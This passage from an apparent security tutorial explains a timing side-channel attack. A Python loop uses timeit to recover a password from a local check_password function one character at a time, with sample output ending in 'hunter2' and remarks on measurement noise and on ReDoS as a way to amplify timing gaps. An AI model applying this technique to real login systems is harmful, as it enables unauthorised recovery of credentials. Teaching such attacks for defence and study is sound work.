 Now that we know the first character, we can keep continuing like this by just prefixing our guess with the part we already know. Slowly we will build out the `REAL_PASSWORD` character by character and eventually find the whole string:

```python
found = ""
for i in range(length):
    samples = {}

    for c in "abcdefghijklmnopqrstuvwxyz0123456789":
        password = (found + c).ljust(length, "a")
        
        time = timeit.timeit(f"check_password({password!r})", setup=setup, number=1000000)
        print(f"{password!r} -> {time:.3f}")
        samples[c] = time
        
    c = max(samples, key=samples.get)
    print("Found char:", c)
    found += c

print("Found password:", found)
```

```rust
...
Found char: h
'haaaaaa' -> 0.318
...
'htaaaaa' -> 0.332
'huaaaaa' -> 0.370  // longest
'hvaaaaa' -> 0.327
...
'h9aaaaa' -> 0.322
Found char: u
...
'hunter1' -> 0.600
'hunter2' -> 0.611  // longest
'hunter3' -> 0.580
Found char: 2
Found password: hunter2
```

While the above example output shows it working, this code is **very unreliable,** especially near the end where random speedups and slowdowns happen more often. This is because the timing attack we are performing here is based on differences of **microseconds**, and even the slightest disturbance can mess up our measurements. Using the `timeit` library we are taking a million measurements of this function directly, without random network delays or anything. Still, the differences in timing are so tiny that it is hard to tell the correct character for sure near the end.&#x20;

For a practical attack, there often needs to be something more than more loop iterations slowing the program down. It can be useful to try and make something special happen that takes a long time if the first part is correct, like with [#string-exfiltration-via-redos](../languages/regular-expressions-regex.md#string-exfiltration-via-redos "mention"), but otherwise try to get the **most accurate** measurements and take advantage of **statistics** to find the outlier.&#x20;
